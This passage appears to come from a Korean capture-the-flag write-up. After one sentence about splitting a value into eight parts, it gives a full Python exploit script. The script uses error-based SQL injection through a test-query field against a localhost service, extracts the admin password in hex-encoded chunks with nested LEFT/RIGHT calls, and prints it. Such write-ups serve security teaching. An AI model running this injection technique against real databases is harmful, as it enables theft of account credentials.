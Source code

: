 8등분하는 방법은 여러 가지입니다. 예를 들어 `LEFT`와 `REVERSE` 함수만으로도 비슷한 논리를 이용하여 해결할 수 있습니다.

exploit.py
```python
import requests

base_url = "http://localhost:10000/"

def reset():
    data = {
        "user" : "1",
        "pass" : "1",
        "testquery" : "1",
        "type" : "reset"
    }
    requests.post(base_url, data=data)

def test(testquery : str):
    data = {
        "user" : "1",
        "pass" : "1",
        "testquery" : testquery,
        "type" : "test"
    }
    res = requests.post(base_url, data=data)
    msg = res.text
    msg = msg.split('\n')[110].split('<')[1].split('>')[1]
    return msg

def real(ps : str):
    data = {
        "user" : "admin",
        "pass" : ps,
        "testquery" : "1",
        "type" : "real"
    }
    res = requests.post(base_url, data=data)
    return res.text

def lef(s : str, n : int):
    return "LEFT(" + s + f", {str(n)})"

def rig(s : str, n : int):
    return "RIGHT(" + s + f", {str(n)})"

def outline(s : str):
    return "SELECT CAST(" + s + " as UNSIGNED)"

base_payload = f"""
HEX(HEX((SELECT password FROM users WHERE username='admin')))
""".strip()

reset()
pw = ""
pw += test(outline(lef(lef(lef(base_payload, 76), 38), 19)))
pw += test(outline(rig(lef(lef(base_payload, 76), 38), 19)))
pw += test(outline(lef(rig(lef(base_payload, 76), 38), 19)))
pw += test(outline(rig(rig(lef(base_payload, 76), 38), 19)))
pw += test(outline(lef(lef(rig(base_payload, 76), 38), 19)))
pw += test(outline(rig(lef(rig(base_payload, 76), 38), 19)))
pw += test(outline(lef(rig(rig(base_payload, 76), 38), 19)))
pw += test(outline(rig(rig(rig(base_payload, 76), 38), 19)))
realpw = bytes.fromhex(bytes.fromhex(pw).decode()).decode()
print(realpw)
```